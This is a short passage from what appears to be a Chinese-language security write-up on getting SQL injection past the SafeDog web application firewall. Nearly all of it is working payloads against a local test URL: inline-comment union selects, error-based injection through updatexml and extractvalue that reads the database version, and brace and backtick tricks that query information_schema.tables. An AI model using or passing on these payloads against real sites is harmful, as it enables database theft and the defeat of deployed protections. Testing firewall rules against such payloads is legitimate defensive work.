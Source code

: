 ```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,user--%0a()%23
```

![](/OSS/image/20201201/14.png)

基于报错信息的注入绕安全狗

```url
http://127.0.0.1/test.php?id=1' and /*!12345updatexml!*/(1,concat(0x7e,version()))%23
http://127.0.0.1/test.php?id=1' and /*!12345extractvalue!*/(1,concat(0x7e,version()))%23
```

## 绕过select from

使用大括号去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4From{information_schema.tables}
```

![](/OSS/image/20201201/15.png)

使用反引号去绕过

```url
http://127.0.0.1/test.php?id=1.0 /*union/*!select-1*/,2,3,4 From`information_schema.tables`
```
